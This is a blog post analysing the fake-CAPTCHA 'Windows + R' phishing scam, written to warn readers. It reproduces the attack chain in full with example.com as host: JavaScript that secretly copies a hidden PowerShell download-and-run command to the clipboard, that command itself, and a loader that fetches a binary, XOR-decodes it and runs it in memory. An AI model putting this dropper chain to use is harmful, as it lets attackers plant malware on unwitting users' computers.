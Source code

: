 +++
title = "How does the Windows + R scam work"
date = 2024-10-29T06:57:18+08:00

[taxonomies]
tags = ["CAPTCHA", "PowerShell", "Security", "Windows"]
+++

You might have heard of the new scam about the [CAPTCHA] which asks you use Windows + R to verify that you are human.
It gives you a popup and introduces a verification step with `Windows + R` and `Ctrl + V` then press `Enter`.
You probably already know how it works, but let's take a closer look at their code this time.

<!-- more -->

Usually we see these scams from websites like [GitHub], [Reddit], etc.
They are usually disguised as normal comments, such as this below:

> Maybe this solution will solve your problem click this link: ...

They provide you with a link a and when you open it, you will find that the page requires a CAPTCHA verfication.
When you click this CPATCHA button, a window will pop up on the page and ask you to use a set of key combinations to complete the verification.
Like this:

> Verification Steps:\
> 1 - Press Windows + R\
> 2 - Press Ctrl + V\
> 3 - Press Enter

If you follow the steps they provide, you will fall into their trap.

### What happened during this process?

Let's look directly at their code to see what is executed during the process.

First, let's use [cURL] to obtain the source code of the target URL. I'm using an [example domain] here in case you enter the trap by accident.

```bash
curl https://example.com/captcha.html
```

Let's take a look at the key codes in the obtained content:

```js
function open_modal() {
  var copyText =
    "powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()";
  var textarea = document.createElement("textarea");
  textarea.value = copyText;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  setTimeout(() => {
    document.querySelector("#modal").classList.remove("hidden");
  }, 2000);
}
```

It creates a phishing modal and uses [execCommand("copy")] to secretly copy a command to your clipboard. Let's see what the command does:

```powershell
powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()
```

- `irm` is an alias of the [Invoke-RestMethod] command of [PowerShell]. This is used to send an HTTP or HTTPS request to a RESTful web service.
- [\[ScriptBlock\]::Create] creates a script block based on a script to be parsed when execution contenxt is provide.
- [-WindowStyle Hidden] sets the window style for the session to hidden.

Now let's move to the `https://example.com/scam` to see its content:

```bash
curl https://example.com/scam
```

```powershell
$url = "https://example.com/binary"
$webClient = New-Object System.Net.WebClient
$sell61 = $webClient.DownloadData($url)
$gossip123 = 0x09, 0x04, 0x05
$struggle6 = [byte[]]::new($sell61.Length)

for ($i = 0; $i -lt $sell61.Length; $i++) {
  $struggle6[$i] = $sell61[$i] -bxor $gossip123[$i % $gossip123.Length]
}

$afraid16 = [System.AppDomain]::CurrentDomain.Load($struggle6)

if ($afraid16.EntryPoint -ne $null) {
  $afraid16.EntryPoint.Invoke($null, @($null))
} else {
  Write-Host "glass glimpse glue gloom"
}
```

- [New-Object System.Net.WebClient] provides a common methods for sending data to and receiving data from a resource identified by a URI.
- `-bxor` is an [arithmetic operator] for bitwise XOR calculation. In this for-loop it should be a deobfuscation process.
- [\[Sytem.AppDomain\]::CurrentDomain.Load] loads an [Assembly] into the specific domain.

Then they cando whatever they want with your operating system through the implanted application.

### Why is the phishing method so effective?

Effective phishing methods are often easy to operate and can catch you without you realizing it.
Just like CAPTCHA, the various verification methods now make people lose their vigilancem, and some people lack basic computer knowledge and fall into this trap.

On the other hand, due to the rise of smartphones and tablets, some people have become computer illiterate, especially the kids.
People use their laptops only for schoolwork, and that's really about all you can do with it since the OS is so limited/sandboxed.
As the [Discord post from r/Teachers] mentioned, more and more students don't know how to use computers.

These factors combined make this phishing attack method such effective.

### Links

- [Assembly]
- [CAPTCHA]
- [Discord post from r/Teachers]
- [GitHub]
- [Invoke-RestMethod]
- [New-Object System.Net.WebClient]
- [PowerShell]
- [Reddit]
- [cURL]
- [arithmetic operator]
- [example domain]
- [execCommand("Copy")]
- [-WindowStyle Hidden]
- [\[ScriptBlock\]::Create]
- [\[Sytem.AppDomain\]::CurrentDomain.Load]

[Assembly]: https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly
[CAPTCHA]: https://en.wikipedia.org/wiki/CAPTCHA
[Discord post from r/Teachers]: https://www.reddit.com/r/Teachers/comments/xuxbo9/why_dont_they_know_how_to_use_computers/
[GitHub]: https://github.com
[Invoke-RestMethod]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-restmethod
[New-Object System.Net.WebClient]: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Reddit]: https://www.reddit.com
[arithmetic operator]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators
[cURL]: https://curl.se
[example domain]: https://www.iana.org/help/example-domains
[execCommand("Copy")]: https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand
[-WindowStyle Hidden]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pwsh#-windowstyle---w
[\[ScriptBlock\]::Create]: https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.scriptblock.create
[\[Sytem.AppDomain\]::CurrentDomain.Load]: https://learn.microsoft.com/en-us/dotnet/api/system.appdomain.load
